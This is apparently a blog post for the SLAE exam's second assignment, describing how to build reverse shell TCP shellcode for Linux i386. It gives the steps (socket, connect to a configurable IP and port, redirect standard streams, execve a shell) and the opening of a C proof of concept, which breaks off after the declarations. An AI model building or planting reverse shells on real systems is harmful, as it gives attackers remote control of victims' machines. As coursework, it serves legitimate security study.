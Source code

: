 ```yaml
---
layout: post
author: thesp0nge
title: "Assignment #2: Create a reverse shell shellcode"
tags: [slae, shellcode, reverse shellcode, assembler, i386]
comments: true
category: [slae]
share: true
order: 2
---
```


The second assignment for SLAE certification is to create a standard reverse shell TCP
shellcode in assembler language. The shellcode will reverse connect to a specific IP address on a given port spawning a shell on the waiting process.

The IP address and the port number to connect should be easily configurable.

The assignment was written on an Ubuntu Linux 18.04, with a Linux kernel 4.15
version.

## The POC

The PoC for the reverse shell shellcode is straightforwardly easy. The C code will:

* opens a socket
* set destination IP and destination port
* connects the socket to the designated endpoint

If the connect() call is successfull, then standard output, standard input and
standard error on the socket descriptor are redirected on the connected socket
and then spawn the shell using execve() system call.

As in the first assignement, when execve() it has been executed, the code in
the process text segment is substituted with the shell one, so there is no need
for an exit() call at the end of the PoC.

{% highlight c %}
/*
 * tcp_reverse_shellcode.c: connects to a given IP address and TCP port and
 * spawn a shell when connection succeeded.
 *
 * BSD 2-Clause License
 *
 * Copyright (c) 2018, Paolo Perego
 * All rights reserved.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>

// for socket() and connect() calls
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>


#define IP 	"127.0.0.1"
#define DPORT	4444

int main(int argc, char **argv) {
	int sfd, ret;
	struct sockaddr_in peer;
